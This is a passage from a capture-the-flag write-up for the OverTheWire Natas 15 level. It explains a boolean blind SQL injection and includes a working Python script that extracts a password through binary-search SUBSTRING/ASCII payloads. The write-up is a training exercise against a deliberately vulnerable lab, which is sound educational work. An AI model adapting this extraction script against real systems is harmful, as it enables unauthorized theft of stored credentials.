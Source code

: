 4. The code above shows that the application checks if a user exists by evaluating `mysqli_num_rows($res) > 0`. This behavior can be exploited to perform a Blind SQLi attack, as the application provides different responses based on the query result.

5. I developed a Python script to automate the extraction of the password using a binary search technique through Blind SQLi. The script iteratively guesses each character of the password by sending payloads that check if the ASCII value of a character is greater than a certain value. 
   
   > **_NOTE:_**
   > Using binary search, the correct ASCII character is identified in approximately 6-7 requests per character, as log₂(95) rounds to this range.
   > Overall, this method requires around 200 requests, significantly reducing the number from over 2,000 needed for a brute-force approach.

   ```python
   import requests
   import string
   import time

   url = "http://natas15.natas.labs.overthewire.org/index.php"
   auth = ("natas15", "REDACTED") 
   headers = {
       "Content-Type": "application/x-www-form-urlencoded",
       "User-Agent": "Mozilla/5.0",
   }

   min_ascii = 32
   max_ascii = 126

   def extract_password():
       known = ""
       for pos in range(1, 33):  # other passwords were 32 chars long
           low, high = min_ascii, max_ascii
           print(f"[ ] Position {pos}: ", end='', flush=True)

           while low <= high:
               mid = (low + high) // 2
               payload = f'natas16" AND ASCII(SUBSTRING(password,{pos},1)) > {mid} #'
               data = {"username": payload}
               r = requests.post(url, auth=auth, headers=headers, data=data)

               if "This user exists." in r.text:
                   low = mid + 1
               else:
                   high = mid - 1

           found_char = chr(low)
           known += found_char
           print(f"{found_char} => {known}")
       return known

   if __name__ == "__main__":
       print("[*] Extracting password using binary SQLi...")
       password = extract_password()
       print(f"\n[+] Final password: {password}")
   ```
